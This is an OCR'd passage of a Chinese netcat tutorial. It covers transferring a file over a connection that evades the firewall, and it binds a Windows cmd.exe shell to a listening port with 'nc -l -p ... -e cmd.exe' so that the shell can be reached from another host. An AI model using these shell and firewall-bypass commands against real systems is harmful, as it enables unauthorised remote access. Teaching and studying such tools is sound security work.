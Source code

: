 方法2，先启动发送命令

（反向传文件）谁来链接我，将文件发送给他

可以绕过防火墙（出去的流量防火墙一般不拦截）

步骤1，先在B机器上，启动发送文件命令

下面命令表示通过本地的9992端口发送test.mv文件

nc -l -p 9992 <test.mv

步骤2，A机器上连接B机器，取接收文件

下面命令表示通过连接B机器的9992端口接收文件，并把文件存到本目录下，文件名为test2.mv

nc 10.0.1.162 9992 >test2.mv

Windows 10

![](./image/wps7.jpg) 

Win 2003

![](./image/wps8.jpg) 

 

 

 

 

nc 反弹shell

方法1、REMOTE主机绑定SHELL（传递cmd）

在公网监听

nc -l -p 11213 -t -e c:\winnt\system32\cmd.exe

或者

nc -l -p 5555 -t -e cmd.exe

在内网主动建立连接

nc -nvv 192.168.153.138 5555

-t是通过telne模式执行 cmd.exe 程序，可以省略。

讲解：绑定REMOTE主机的CMDSHELL在REMOTE主机的TCP5354端口

03

![](./image/wps9.jpg) 
